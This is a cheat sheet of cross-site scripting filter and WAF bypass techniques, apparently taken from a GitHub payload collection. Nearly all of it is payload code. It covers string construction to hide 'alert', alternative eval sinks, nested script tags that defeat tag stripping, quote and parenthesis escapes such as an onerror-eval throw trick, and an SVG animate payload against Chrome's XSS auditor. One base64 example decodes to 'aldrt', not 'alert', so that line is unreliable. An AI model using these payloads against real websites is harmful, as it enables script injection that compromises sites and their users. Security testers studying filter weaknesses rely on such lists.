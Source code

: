 ```javascript
```

#### Bypass by Constructing Strings
```javascript
alert
/ale/.source+/rt/.source
String.fromCharCode(97,108,101,114,

116)  # Hex unicode encoding
atob("YWxkcnQ=")  # Base64 payload
17795081..toString(36)  # Convert the number on the left to a base36 string
```

#### Alternative Function Sinks
```javascript
setTimeout
setInterval
Function
[].constructor.constructor("[code]")
```

### Sanitation Bypass
#### Remove Tags
```html
<scr<script>ipt>...</script>  # The script might check only the first instance
<scr<iframe>ipt>...</script>  # Recursive scripts might not start every iteration from the beginning of the string
```

#### Escape Quotes
```javascript
eval(\'...\')  # The filter replaces ' with \' so by adding \ we obtain \' --> \\' 
String.fromCharCode(...)  # Generate string from sequence of unicode hex chars
unescape(/%78%u0073%73/.source)  # Decode escaped characters
decodeURI(/alert(%22...%22)/.source)  # Decode URL escaped chars
decodeURIComponent(/alert(%22...%22)/.source)  # Decode URL escaped chars
```

#### Escape Parentheses
```html
<img src=x onerror="window.onerror=eval;throw='alert\x28\x29'"
```

## WAF Bypass

### Google Chrome Payloads
#### Google XSS Audit Bypass
```html
<svg><animate xlink:href=#x attributeName=href values=&#106;avascript:alert(1) /><a id=x><rect width=100 height=100 /></a>
```
